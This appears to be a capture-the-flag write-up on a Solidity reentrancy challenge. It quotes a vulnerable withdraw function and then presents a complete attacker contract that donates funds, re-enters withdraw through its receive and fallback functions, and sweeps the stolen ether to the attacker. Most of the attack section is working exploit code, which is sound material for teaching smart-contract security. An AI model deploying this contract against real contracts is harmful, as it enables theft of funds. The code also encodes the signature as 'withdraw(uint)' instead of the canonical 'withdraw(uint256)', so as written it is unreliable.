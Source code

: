 # Requirements

- Steal all the funds from the contract.

# Attack explanation

To steal all funds for the contract, we might use reentrancy attack. We need to spot a place where an external call transfering eth is happening before updating state variables.

Our vulnerability exploiting candidate is withdraw function:

```
function withdraw(uint _amount) public {
  if(balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value:_amount}("");
    if(result) {
      _amount;
    }
    balances[msg.sender] -= _amount;
  }
}
```

This function is vulnerable to reentrancy attack, because it is calling and external source before updating internal contract state.

# Attack function

We could solve the challenge by just using the following attack proxy sc:

```
contract MaliciousContract {
  address payable public vulnerableScAddress;
  address payable public attacker;
  uint256 public constant attackValue = 0.001 ether;

  constructor(address _vulnerableScAddress) payable {
      vulnerableScAddress = payable(_vulnerableScAddress);
      attacker = payable(msg.sender);
  }

  receive() external payable {
      if (vulnerableScAddress.balance >= attackValue) {
          vulnerableScAddress.call(
              abi.encodeWithSignature("withdraw(uint)", attackValue)
          );
      }
  }

  fallback() external payable {
      if (vulnerableScAddress.balance >= attackValue) {
          vulnerableScAddress.call(
              abi.encodeWithSignature("withdraw(uint)", attackValue)
          );
      }
  }

  function attack() public payable {
      require(msg.value >= attackValue, "Need to send at least 0.001 eth.");
      // Donates minimum funds to be able to pass if(balances[msg.sender] >= _amount) control
      vulnerableScAddress.call{value: attackValue}(
          abi.encodeWithSignature("donate(address)", address(this))
      );

      // Triggers withraw vulnerability.
      vulnerableScAddress.call(
          abi.encodeWithSignature("withdraw(uint)", attackValue)
      );
  }

  function claimAndRun() public {
      require(msg.sender == attacker, "not your bounty, buddy.");
      attacker.transfer(address(this).balance);
  }
}
```
